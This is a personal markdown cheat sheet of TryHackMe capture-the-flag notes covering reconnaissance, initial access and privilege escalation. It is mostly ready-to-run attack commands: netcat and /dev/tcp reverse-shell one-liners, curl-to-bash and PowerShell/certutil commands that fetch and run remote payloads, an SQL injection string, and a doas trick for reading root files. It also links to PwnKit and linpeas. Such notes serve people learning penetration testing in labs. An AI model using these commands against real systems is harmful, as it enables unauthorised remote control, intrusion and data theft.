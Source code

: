 
# Tryhackme Experience
- Index
  - https://gist.github.com/AshtonIzmev/72f33ae4ff93a6603d55959b2b1e8078#file-thm_steps-sh
  - [Reconnaissance](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#reconnaissance)
  - [Initial Access](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#initial-access)
  - [Interesting files and paths](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#interesting-files-and-paths)
  - [Esclation and Tweaks](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#esclation-and-tweaks)


### Reconnaissance
- Nmap -sC -sV -v target   
  - sV tries to find out which services are running on the target
  - Pn disables the ping command and only scans ports.
  - sC is short form for script scan, based on services availble, it uses sripts to scan more
  - T<0-5>: Set timing template (higher is faster)
  - A Enable OS detection, version detection, script scanning, and traceroute
- gobuster dir -u http://10.10.164.212/ -w /usr/share/wordlists/dirb/common.txt
  - dir fuzzer 
- nikto -h target
  - tool for enumerating information from Windows and Samba systems
- enum4linux target
  - tool for enumerating information from Windows and Samba systems 
- smbmap -H target 
  - SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents etc.
- smbclient //target/share
  - Mostly used in null sessions kinda samba exploitable directories
- rustscan -a target
  - The modern NMAp scanner  
### Initial Access
- Searchsploit nagios
  - searchsploit -m php/webapps/blah.txt  -> convert to py shell and read the comments/usage details in the the following code and input accordingly
  - python3 -m http.server 808-0
  - Opens up a dedicated python server over the internet to serve files in that directory
  - http://10.9.2.90:8080/shell.sh | bash
 - nc -nlvp 1234
   - Opens up a netcat shell on attacker box for incoming connections 
 - python -c 'import pty; pty.spawn("/bin/bash")'  
   - Upgrade from a dump shell to  bash shell
 - powershell.exe Invoke-WebRequest -Uri https://10.10.10.10/shell.exe -OutFile ./shell.exe && .\shell.exe
   - powershell.exe — this is a shell in windows (other than cmd.exe) it is object oriented and it is the blue teams best friend and a hackers favorite mistress
   - Invoke-WebRequest — powershell module similar to curl
   - Uri — the target URI
   - OutFile — what the file downloaded will be called
   - .\shell.exe — execute the shell.exe in the current working directory
   - Get-Content user.txt
 - certutil.exe -urlcache -split -f http://10.17.8.104:8080/mysqld_evil.exe mysqld.exe
   - To download a payload from a remote server 
- 1' or '1'='1';-- -
  - SQL Injection Payloads 
  - sqlmap -r login.req --level 3 --risk 3
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
  - mkfifo /tmp/f is creating a named pipe at /tmp/f.
  - cat /tmp/f is printing whatever is written to that named pipe and the output of cat /tmp/f is been piped to /bin/sh
  - /bin/sh is running interactively and stderr is redirected to stdout.
  - the output is then piped to nc which is listening on port 1234
  - and the out put is finally redirected to the named pipe again.
  - If we have a ‘PHP system’ remote code exec on the system, we will spawn a proper rev shell using nc

- /bin/bash -i >& /dev/tcp/10.2.96.144/4443 0>&1
  - Load this babe into a .sh file used during cronjob kinda exploits 
  - ?cmd=curl+http://10.2.96.144:8000/rev.sh+|+bash
  - Downloads and executes file
  - [Pentest Monkey Reverse PHP file](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

### Interesting files and paths
- cd /var/www/html/wordpress/wp-config.php
- doas.conf
  - Check whether SSL is permitted to run as root! [permit nopass plot_admin as root cmd openssl
]
  -  doas openssl enc -in "/root/root.txt"  
- 

### Esclation and tweaks
- su user
- sudo -l
- https://gtfobins.github.io/
  - Limuzzzzzz
- https://lolbas-project.github.io/  
  - Windows 
- find / -type f -perm -u=s 2>/dev/null
- getcap -r / 2>/dev/null 
- https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
- curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh



### References and boxes completed
1. https://tryhackme.com/room/techsupp0rt1
2. https://tryhackme.com/room/flatline
3. https://tryhackme.com/room/plottedtms
4. https://tryhackme.com/room/gallery666
5. 
    
